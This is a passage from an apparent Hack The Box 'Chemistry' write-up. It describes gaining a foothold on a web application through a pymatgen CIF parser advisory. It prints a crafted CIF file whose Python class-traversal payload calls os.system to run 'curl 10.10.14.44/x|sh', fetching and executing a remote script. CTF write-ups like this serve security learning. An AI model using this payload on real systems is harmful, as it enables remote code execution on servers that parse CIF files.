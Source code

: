 ```c
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

To have the full picture we `re-uploaded` the example to see how the `web application` would handle it.

![](images/2024-10-20_11-26_80_example_upload.png)

## Foothold

### JonesFaithfulTransformation Arbitrary Code Execution

Our man `ethicxz` did a quick search on `Google` about `cif file exploits` and came up with the following `Proof of Concept (PoC)` exploit.

- [https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

We modified it to our needs and saved it as `vuln.cif`, ready to be uploaded to the `web application`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Chemistry/serve]
└─$ cat vuln.cif 
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl 10.10.14.44/x|sh");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
